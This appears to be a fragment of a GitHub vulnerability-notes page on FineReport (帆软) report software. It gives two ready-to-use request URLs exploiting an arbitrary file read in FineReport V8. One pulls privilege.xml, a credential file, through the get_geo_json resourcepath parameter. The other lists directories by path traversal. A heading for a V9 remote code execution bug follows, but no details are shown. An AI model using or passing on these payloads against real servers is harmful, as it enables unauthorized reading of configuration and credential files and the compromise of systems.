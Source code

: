 - 帆软 V8 任意文件读取漏洞

http://xxx.xxx.com:8081/WebReport/ReportServer?op=chart&cmd=get_geo_json&resourcepath=privilege.xml
https://xxxx.com/WebReport/ReportServer?op=fs_remote_design&cmd=design_list_file&file_path=..&currentUserName=admin&currentUserId=1&isWebReport=true

- 帆软 V9 前台 RCE

